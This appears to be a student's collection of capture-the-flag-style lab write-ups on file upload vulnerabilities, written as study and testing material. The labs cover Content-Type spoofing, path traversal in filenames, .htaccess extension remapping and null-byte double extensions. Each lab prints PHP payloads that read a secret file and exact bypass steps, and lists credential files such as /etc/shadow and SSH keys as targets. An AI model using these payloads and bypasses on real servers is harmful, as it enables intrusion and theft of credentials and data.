# ✅Lab-1 File Upload Vulnerabilities – Arbitrary File Upload → RCE

---

## 1. Overview

This vulnerability occurs when a web application allows users to upload files without enforcing strict validation on:

- File extension
- MIME type
- File contents
- Execution permissions

As a result, an attacker can upload a **malicious executable file** (such as a PHP script) and trigger it via a web-accessible path, leading to **Remote Code Execution (RCE)**.

---

## 2. What This Topic Is About

File upload vulnerabilities arise when an application assumes uploaded files are safe and does not verify:

- Whether the file is executable
- Whether the upload directory allows code execution
- Whether user-controlled filenames are trusted

The attacker abuses this trust to upload a **server-side script** and execute arbitrary commands or read sensitive files.

---

## 3. Real-World Scenarios

Common real-world appearances of this vulnerability:

✔ Profile image uploads allowing `.php` files  
✔ Attachment upload features in CMS panels  
✔ Support ticket file uploads  
✔ Legacy PHP applications  
✔ Misconfigured web servers allowing execution in `/uploads/`  

Impact often includes:

- Full server compromise
- Credential theft
- Database access
- Pivoting to other internal services

---

## 4. Lab Walkthrough (File Upload → Execution)

### Lab Condition
- Application allows avatar upload
- Uploaded files are stored inside a **web-accessible directory**
- No restriction on executable file extensions

### Goal

Retrieve Carlos’s secret from:

```
/home/carlos/secret
```

### Exploit Used

Uploaded PHP file (`exploit.php`):

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

### Attack Flow

1. Go to my accont
2. Login as low-previleged user
3. Upload simple .png image to check the flow (Observe POST request)
4. Click My Acoount option again to trigger GET request as image appears in profile 
5. Add the MIME type `image` also in Proxy> HTTP history filters (observe GET request reveals file path where image is upload in backend server)
6. Upload `exploit.php` as avatar/image
7. Application stores file in:

```
/files/avatars/exploit.php
```

4. Browser automatically requests the uploaded file
5. PHP code executes on the server
6. Secret is revealed in the response

✔ Lab solved

---

## 5. Screenshot Proof (Exploit Execution)

The following screenshot shows successful execution of `exploit.php` and retrieval of Carlos’s secret.



---

## 6. High-Value Targets After Upload Execution

Once RCE is achieved, attackers commonly target:

### Sensitive Files

```
/home/carlos/secret
/etc/passwd
/etc/shadow
```

### Application Secrets

```
/var/www/.env
config.php
```

### SSH Keys

```
/home/*/.ssh/id_rsa
```

---

## 7. Multi-Chain Attack Possibilities

A simple file upload flaw can be chained into:

✔ File Upload → Web Shell → Full RCE  
✔ File Upload → Credential Theft → Account Takeover  
✔ File Upload → Database Access → Data Exfiltration  
✔ File Upload → Privilege Escalation  

This makes file upload vulnerabilities **high-impact and critical**.

---

## 8. Remediation (How to Fix)

❌ Insecure Approaches:

- Relying only on file extension checks
- Trusting `Content-Type` headers
- Allowing uploads inside web root

✔ Secure Fixes:

- Allowlist extensions strictly
- Verify file contents (magic bytes)
- Store uploads outside web root
- Disable script execution in upload directories
- Rename uploaded files (random UUIDs)

---

## 9. Extra Notes / Pentester Tips

- Always check if upload paths are web-accessible
- Test execution by requesting the file directly
- Even “image-only” uploads may allow bypass
- Execution can also occur via includes or admin previews

---

> **Final Takeaway:**  
> File upload vulnerabilities are dangerous not because files are uploaded — but because the server later **executes or processes them**.

---

# ✅Lab-2 File Upload Vulnerability – Flawed File Type Validation (Content-Type Bypass)

---

## 1. Overview

File upload vulnerabilities occur when a web application allows users to upload files without properly validating their:

- File type
- File extension
- MIME type
- File content
- Upload location

If validation is weak or flawed, attackers can upload *server-side executable files* (PHP, JSP, ASP) which may lead to:

- Remote Code Execution (RCE)
- Sensitive data disclosure
- Full server compromise
- Lateral movement

This lab demonstrates a *real-world file upload flaw* where validation exists but relies entirely on a *user-controlled HTTP header*.

---

## 2. What This Topic Is About

This lab focuses on *flawed file type validation*, specifically:

- The application validates the Content-Type header
- The Content-Type header is fully attacker-controlled
- The backend does *not* verify the actual file contents

As a result, an attacker can:

- Upload a PHP file
- Masquerade it as an image
- Trigger server-side execution

---

## 3. How File Upload Handling Works (Simplified)

When uploading files using multipart/form-data, the request includes:

Content-Disposition: form-data; name="avatar"; filename="shell.php" Content-Type: image/png

🚨 *Critical Mistake*

- Server trusts Content-Type
- Server does NOT inspect magic bytes
- Server allows executable extensions

So the server believes:

> “This is an image”

Even though it is *PHP code*.

---

## 4. Vulnerability Root Cause

The vulnerability exists because:

- ❌ Validation relies on user-controlled headers
- ❌ No magic-byte or file signature verification
- ❌ Executable files allowed in upload directory
- ❌ Uploaded files are publicly accessible

This is a *classic real-world upload vulnerability*.

---

## 5. Impact

Successful exploitation allows attackers to:

- ✔ Read sensitive files (/home/carlos/secret)
- ✔ Execute arbitrary PHP code
- ✔ Deploy persistent web shells
- ✔ Extract credentials
- ✔ Fully compromise the server

*Severity: Critical*

---

## 6. Methodology (How to Test in Real Pentests)

Whenever you encounter file upload functionality:

1. Upload a benign file (image)
2. Observe:
   - Upload path
   - Public accessibility
3. Intercept request in Burp
4. Modify:
   - Content-Type
   - Filename
5. Trigger execution via GET request

---

## 7. LAB WALKTHROUGH (Exact Steps)

### Step 1 — Login

Username: wiener Password: peter

---

### Step 2 — Upload Normal Image (Recon)

Uploaded file:

smiley.png

Observed path:

/files/avatars/smiley.png

✔ Files are publicly accessible  
✔ Served directly by the web server

---

### Step 3 — Prepare PHP Payload

Create file:

exploit.php

Payload:

```php
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

---

### Step 4 — Intercept Upload Request (Burp)

Original request snippet:

Content-Disposition: form-data; name="avatar"; filename="exploit.php"
Content-Type: application/octet-stream


---

### Step 5 — Content-Type Bypass

Modify header to:

Content-Type: image/png

🚨 Filename remains exploit.php

Send request.

---

### Step 6 — Trigger Execution

Navigate back to My Account

Browser loads:

GET /files/avatars/exploit.php

✔ PHP executed
✔ Secret disclosed

---

### Step 7 — Submit Secret

✔ Lab solved successfully

---

## Evidences/Proof

### 📸 SS-1 — Content-Type Header Manipulation



### 📸 SS-2 — Carlos Secret Retrieved



---

## 8. Real-World Scenarios

### Scenario 1 — Avatar Upload → RCE

Upload PHP disguised as image → profile page triggers execution.

### Scenario 2 — Document Upload Abuse

Change Content-Type to application/pdf → upload PHP → execute.

### Scenario 3 — Cloud Credential Theft

Read .env → extract AWS keys → cloud takeover.

### Scenario 4 — CMS Plugin Abuse

Upload malicious plugin disguised as asset → persistent backdoor.


---

## 9. High-Value Upload Endpoints

Always test:
```
/upload
/avatar
/profile/upload
/files
/media
/images
/assets
/documents
/import
```
Dangerous when:

Files are executable

Files are publicly accessible


---

## 10. Multi-Chain Attack Possibilities

### Chain 1

File Upload → Web Shell → DB Credentials → Admin → RCE

### Chain 2

File Upload → .env → Cloud Keys → Cloud Takeover

### Chain 3

File Upload → Source Code Leak → Logic Flaw → Priv Esc


---

## 11. Remediation

✔ Validate magic bytes (file signature)
✔ Enforce strict extension allowlist
✔ Rename files randomly (UUID)
✔ Store uploads outside web root
✔ Disable execution in upload directories
✔ Never trust Content-Type
✔ Apply strict filesystem permissions


---

## 12. Extra Notes / Pro Tips

Content-Type is never trustworthy

Extensions alone are insufficient

Always test:
```
.php
.php.jpg
.phtml
.phar
```

> If a file can be uploaded and accessed — assume RCE until proven otherwise.

---

# 📌 LAB-3 NOTES — Bypassing Execution Restrictions via Path Traversal

---

## 🔎 Overview

This lab demonstrates how file upload protections can be bypassed even when **script execution is disabled** inside upload directories.

The application attempts to defend against web shells by serving uploaded PHP files as plain text.  
However, a **secondary vulnerability (path traversal in the filename)** allows the uploaded PHP file to be written into a different, executable directory.

This results in **full Remote Code Execution (RCE)** despite defense-in-depth controls.

---

## 🧠 What Is This Topic?

**Core Topic**

> File upload exploitation combined with execution bypass using directory traversal

**Key Concepts Involved**

- MIME-type validation bypass  
- Non-executable upload directories  
- Directory traversal (`../`)  
- URL encoding to bypass filters  
- Different execution behavior across directories  

This is a classic **defense-in-depth failure**:

- Defense 1 — MIME-type validation ❌ bypassed  
- Defense 2 — No execution in upload folder ❌ bypassed via traversal  

---

## 🌍 Real-World Scenarios (Out-of-Box)

### 1️⃣ Hardened Upload Folder but Weak Path Handling

Uploads directory configured with:

php_flag engine off  

Developers assume uploaded files are safe, but traversal allows escaping into executable directories.

---

### 2️⃣ CDN / Reverse Proxy Mismatch

- Upload handled by one server  
- File served by another  
- Different execution rules apply  

Result:  
File is non-executable in `/uploads` but executable in `/`.

---

### 3️⃣ API Upload with Partial Sanitization

Filename sanitized **after** traversal resolution.

Example:

avatars/../exploit.php  

Resolved internally as:

/exploit.php  

---

### 4️⃣ Misconfigured Nginx + PHP-FPM

- Nginx blocks PHP execution in `/uploads`
- PHP-FPM executes scripts elsewhere
- Traversal bypasses Nginx rules

---

### 5️⃣ Containerized Environments

- Upload volume mounted differently
- Traversal writes into application root
- PHP interpreter executes the file

---

## 🧪 Lab Walkthrough (Exact Steps)

### Step 1 — Login

Username: `wiener`  
Password: `peter`

---

### Step 2 — Initial Upload Attempt (No Execution)

Upload file:

exploit.php  

Intercept request and modify header:

Content-Type: image/png  

Result:

- File uploads successfully  
- PHP source is returned as text  
- No execution occurs  

✔ Confirms non-executable upload directory

---

### Step 3 — Identify Secondary Vulnerability

Observation:

- Filename is not properly sanitized  
- Directory traversal sequences are accepted  

---

### Step 4 — Path Traversal Payload

Change filename to:

../exploit.php  

URL-encoded form:

..%2Fexploit.php  

Stored internally as:

avatars/../exploit.php  

Resolved path:

/exploit.php  

---

### Step 5 — Trigger Execution

Access file directly:

GET /file/exploit.php HTTP/1.1   

✔ PHP executed  
✔ Secret revealed  
✔ Lab solved  

---

## Evidence/Proof

**Screenshot 1 — Upload succeeds but PHP does NOT execute**




**Screenshot 2 — Path traversal used during upload**




**Screenshot 3 — exploit.php executed and Carlos secret revealed**



---

## 🎯 High-Value Endpoints

Always test uploads that:

- Allow filename control  
- Are stored in restricted directories  

Common targets:
```
/avatar  
/uploads  
/profile/upload  
/media  
/files  
/assets  
/api/upload  
```

---

## 🔗 Multi-Chain Attack Possibilities

**Chain 1**

Upload → Traversal → RCE → Read `.env` → DB credentials  

**Chain 2**

Upload → RCE → Write persistent backdoor  

**Chain 3**

Upload → RCE → Source code disclosure → Further vulnerabilities  

**Chain 4**

Upload → RCE → Privilege escalation via cron / jobs  

---

## 💥 Impact

- Full Remote Code Execution  
- Bypass of multiple security layers  
- Server takeover  
- Data exfiltration  
- Persistent compromise  

**Severity: CRITICAL**

---

## 🛡️ Remediation

✔ Normalize and validate file paths  
✔ Reject `../` before saving files  
✔ Enforce upload directories at filesystem level  
✔ Disable execution using web server **and** OS permissions  
✔ Rename uploaded files server-side  
✔ Validate magic bytes, not headers  

---

## 🧠 Extra Notes / Pentester Tips

- Execution blocked ≠ safe  
- Always test traversal after upload  
- Try encoded and double-encoded paths  
- Different directories = different execution rules  

---

## 🧩 One-Line Takeaway

> When uploads aren’t executable, don’t stop — escape the directory.

---

# ✅Lab-4 File Upload Vulnerability — Blacklist Bypass via Server Configuration Override (.htaccess)

---

## 1. Overview

This lab demonstrates how file upload protections based on *blacklisting dangerous extensions* (such as .php) can be bypassed by abusing *server-side configuration files*.

Even when:

- .php uploads are blocked  
- Upload directories are assumed to be non-executable  

An attacker can still achieve *Remote Code Execution (RCE)* by:

- Uploading a malicious configuration file  
- Redefining executable extensions  
- Uploading a web shell using a custom extension  

This is a *real-world, high-impact vulnerability, commonly found on **Apache-based servers*.

---

## 2. What This Topic Is About

This vulnerability exists due to *misplaced trust in blacklists* and *server misconfiguration*.

Key concepts:

- Blacklists are incomplete and unreliable  
- Apache allows *directory-level configuration overrides*  
- .htaccess can redefine execution rules  
- Servers, not applications, decide what gets executed  

Attackers abuse this to *create their own executable extensions*.

---

## 3. Why This Vulnerability Exists

Developers often assume:

> “Blocking .php uploads is enough.”

This assumption is incorrect because:

- Apache supports .htaccess overrides  
- .htaccess can map new file extensions to PHP  
- Blacklists only block known extensions  
- Configuration files are often forgotten  

*Result:*  
The attacker regains code execution even when .php is blocked.

---

## 4. Lab Walkthrough (Exact Steps)

### Step 1 — Login

Credentials used:

- *Username:* wiener  
- *Password:* peter  

---

### Step 2 — Initial PHP Upload Attempt (Fails)

Attempt to upload:

exploit.php

Payload:

```php
<?php echo file_get_contents('/home/carlos/secret'); ?>
```

Result:
- Upload is blocked
- .php extension rejected

---

### Step 3 — Upload Malicious .htaccess File
Intercept avatar upload request and modify:
- Filename
- .htaccess

Content-Type
- text/plain

File Content
- AddType application/x-httpd-php .l33t

Result:
- Upload succeeds
- Apache now treats .l33t files as PHP

---

### Step 4 — Upload Web Shell with New Extension
Upload payload again as:
exploit.l33t

Payload remains unchanged:
<?php echo file_get_contents('/home/carlos/secret'); ?>

Upload succeeds.

---

### Step 5 — Trigger Execution
Access uploaded file:
GET /files/avatars/exploit.l33t

Result:
- PHP executes
- Carlos’s secret is displayed
- Lab solved 🎯

---

## Evidences

### 📸 Screenshot 1 — PHP upload blocked



### 📸 Screenshot 2 — .htaccess upload successful



### Screenshot 3 - php shell upload


### 📸 Screenshot 4 — Carlos secret revealed




## 5. Real-World Scenarios

### Scenario 1 — Avatar Upload → Full RCE
- .php blocked
- .htaccess allowed
- Attacker enables execution
- Uploads shell
- Full server compromise

---

### Scenario 2 — CMS Plugin Upload Abuse
- CMS blocks .php
- Apache honors .htaccess
- Attacker maps .jpg → PHP
- RCE achieved

---

### Scenario 3 — Shared Hosting Escalation
- One vulnerable site
- Attacker gains RCE
- Pivots to other sites on same server

---

### Scenario 4 — WAF Blacklist Bypass
- WAF blocks .php, .phtml, .php5
- .htaccess allowed
- Attacker creates .safe extension
- WAF completely bypassed

---

### 6. High-Value Target Endpoints
Always test file uploads at:
```
/upload
/avatar
/profile-picture
/images
/media
/files
/assets
/import
```

Try uploading:
```
.htaccess
.user.ini
web.config
```
Especially on Apache servers.

---

### 7. Multi-Chain Attack Possibilities

- Chain 1
Upload → .htaccess → PHP execution → RCE
- Chain 2
Upload → RCE → .env extraction → DB takeover
- Chain 3
Upload → RCE → SSH key theft → lateral movement
- Chain 4
Upload → RCE → Cloud credentials → full cloud compromise


---

## 8. Remediation

- ❌ Ineffective Fixes
- Blacklisting .php
- Client-side checks
- MIME-type validation only

✔ Correct Fixes

- Disable .htaccess uploads
- Set AllowOverride None in Apache
- Use strict allowlists
- Validate magic bytes
- Store uploads outside web root
- Disable execution in upload directories
- Use separate domain for user uploads

---

## 9. Extra Notes & Pentester Tips

- Always identify server type (Apache / Nginx)
- Try config files:
- .htacess
- .user.ini
- web.config

### Execution is controlled by server configuration
> If .php is blocked → create your own extension

---

# 🧠Lab-5 File Upload Vulnerability — Obfuscating File Extensions (Null Byte & Double Extension)

---

## 1️⃣ Overview

Obfuscating file extensions is an attack technique where a dangerous executable file
(e.g. .php) is disguised so that:

- The application’s validation logic thinks the file is safe
- The web server or filesystem later treats it as executable

This results in *Remote Code Execution (RCE)* through file upload.

---

## 2️⃣ What This Topic Is Really About

This topic is *not PHP-specific*.

It exists because of *parsing inconsistencies* between:

- Application-level validation logic
- Web server execution logic
- Filesystem handling
- Encoding and decoding layers

> When two components interpret the same filename differently, the attacker wins.

---

## 3️⃣ Core Mental Model

Two entities interpret the filename:

### 👮 Validator (Application Logic)

- Written in PHP / Java / JavaScript
- Uses regex or string matching
- Often checks only the last extension

### 👨‍🔧 Executor (Server / OS)

- Apache / Nginx / IIS
- MIME mappings and execution rules
- Lower-level filename handling

*Attack succeeds when:*

> Validator says “safe”  
> Executor says “executable”

---

## 4️⃣ Lab Walkthrough (Step-by-Step)

### Step 1 — Login

- Username: wiener
- Password: peter

---

### Step 2 — Recon Upload Path

- Upload a normal image
- Observe avatar is loaded from:

GET /files/avatars/<image>

This confirms:

- Files are publicly accessible
- Upload directory is inside web root

---

### Step 3 — Prepare PHP Payload

Create the following file:
```
<?php
echo file_get_contents('/home/carlos/secret');
?>
```

---

### Step 4 — Initial Upload Attempt

Upload file as:

exploit.php

Result:

- ❌ Upload blocked
- Extension blacklist in place

---

### Step 5 — Obfuscation via Null Byte & Double Extension

Intercept the upload request in Burp and modify filename to:

exploit.php%00.jpg

Why this works:

- Application sees .jpg
- Filesystem truncates at %00
- File is saved as exploit.php

Upload result:

- ✔ Upload accepted

---

### Step 6 — Trigger Execution

Request the uploaded file:

GET /files/avatars/exploit.php

Result:

- ✔ PHP executed
- ✔ Carlos’s secret revealed

---

### Step 7 — Lab Solved

